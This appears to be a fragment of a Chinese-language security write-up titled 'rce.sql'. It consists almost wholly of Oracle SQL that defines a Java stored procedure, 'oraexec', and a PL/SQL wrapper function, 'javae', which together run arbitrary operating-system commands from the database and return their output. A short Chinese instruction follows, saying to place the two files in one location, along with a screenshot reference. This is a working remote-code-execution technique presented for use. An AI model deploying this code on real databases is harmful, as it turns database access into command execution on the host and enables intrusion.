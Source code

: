 rce.sql

```sql
create or replace and resolve java source named "oraexec" as
import java.lang.*;
import java.io.*;
public class oraexec
{
    public static String execCommand(String command) throws IOException, InterruptedException {
        Runtime rt = Runtime.getRuntime();
        int bufSize = 4096;
        byte buffer[] = new byte[bufSize];
        String rc = "";
        int len;
        try{
            Process p = rt.exec(command);
            BufferedInputStream bis =
                    new BufferedInputStream(p.getInputStream(), bufSize);
            while ((len = bis.read(buffer, 0, bufSize)) != -1){
                rc += new String(buffer).split("\0")[0];;
            }
            bis.close();
            p.waitFor();
            return rc;
        } catch (Exception e) {
            rc = e.getMessage();
        }
        finally
        {
            return rc;
        }
    }
}
/
create or replace
function javae(p_command in varchar2) return varchar2
as
language java
name 'oraexec.execCommand(java.lang.String) return String';
/
```

把这两个文件放到一个位置

![image-20240805013800857](\img\image-20240805013800857.png)
